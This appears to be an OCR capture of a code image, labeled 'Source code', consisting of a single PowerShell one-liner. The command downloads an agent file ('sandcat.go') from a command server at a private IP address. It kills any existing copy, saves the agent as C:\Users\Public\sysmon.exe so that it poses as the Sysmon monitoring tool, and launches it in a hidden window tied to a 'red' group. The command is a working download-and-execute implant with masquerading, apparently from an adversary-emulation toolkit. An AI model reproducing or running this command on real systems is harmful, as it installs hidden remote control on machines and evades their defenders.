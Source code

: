 $server="http://10.99.156.79:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\sysmon.exe"} | stop-process -f;rm -force "C:\Users\Public\sysmon.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\sysmon.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\sysmon.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;

